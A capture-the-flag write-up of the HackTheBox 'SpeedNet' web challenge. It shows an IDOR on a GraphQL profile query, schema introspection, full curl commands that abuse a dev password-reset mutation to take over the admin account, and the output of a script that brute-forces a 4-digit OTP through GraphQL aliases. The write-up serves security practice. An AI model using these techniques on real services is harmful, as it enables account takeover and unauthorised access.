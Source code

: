 ```yaml
---
title: 'HackTheSystem: SpeedNet'
author: lict
categories: [HackTheBox]
tags: [web, graphql, IDOR, OTP, bruteforce]
render_with_liquid: false
media_subpath: /images/hackthesystem_speednet/
---
```


The challenge description:
```
Speednet is an Internet Service Provider platform that enables users to purchase internet services. We invite you to participate in our bug bounty program to identify any potential vulnerabilities within the application and retrieve the flag hidden on the site. For your testing, we have provided additional email services. Please find the details below:  
Email Site: `http://IP:PORT/emails/` Email Address: test@email.htb
```

We can make an account here, let's proceed with that. When we visit the `/profile` endpoint, the browser sends the following request to load our data:

![[Pasted image 20250629182719.png]]

Let's change the `userId` parameter to `1` and see if we can get the `admin`'s data:

![[Pasted image 20250629182811.png]]

It worked! I saved the output we got and tried to send the introspection query.
Here's the request body I sent to `/graphql` endpoint:
```
{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}
```

I noticed this interesting mutation, seems like we can reset the `admin`'s password:

![[Pasted image 20250629183152.png]]

I used the following `curl` command to proceed:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation GetAdminResetToken { devForgotPassword(email:   \"admin@speednet.htb\") }"}'
{"data":{"devForgotPassword":"Dev only! Password reset token: 885ba666-3dfd-4175-9fdc-406c2e15dcbc"}}

```

Then, using the token I got I reset the admin's password:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation ChangeAdminPassword { resetPassword(token: \"885ba666-3dfd-4175-9fdc-406c2e15dcbc\", newPassword: \"Lictwashere123!\") }"}'
{"data":{"resetPassword":"Password has been reset successfully"}}

```

It worked, I was able to login as admin but it asked for an OTP:

![[Pasted image 20250629183832.png]]

I clicked resend OTP hoping it will be exposed somewhere, but it just exposed a token:

![[Pasted image 20250629184139.png]]

I've decided to `bruteforce` the OTP using `graphql aliases`. I vibe coded a tool again, made small changes, grabbed the token and ran it hoping it will work, and BOOM!

```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ python3 hack_otp.py

[*] Starting attack for 4-digit OTPs...
[*] Target: http://94.237.62.135:45936/graphql
[*] Batch size: 200

[*] Sending batch: 0000 -> 0199
[*] Sending batch: 0200 -> 0399
[*] Sending batch: 0400 -> 0599
[*] Sending batch: 0600 -> 0799
[*] Sending batch: 0800 -> 0999
[*] Sending batch: 1000 -> 1199
[*] Sending batch: 1200 -> 1399
[*] Sending batch: 1400 -> 1599
[*] Sending batch: 1600 -> 1799
[*] Sending batch: 1800 -> 1999

==================================================
[+] SUCCESS! OTP FOUND: 1814
==================================================

[+] Full Response from Server:
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ",
  "user": {
    "id": 1,
    "email": "admin@speednet.htb"
  }
}

[+] FINAL SESSION TOKEN:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ

```

I signed into my own account and switched tokens in `Local Storage` from mine to the hacked one. I refreshed the page using `CTRL+SHIFT+R` and noticed that I am logged in as `admin@speednet.htb`. I just navigated to the `Billing` tab, scrolled the page down and grabbed the flag!

![[Pasted image 20250629184844.png]]

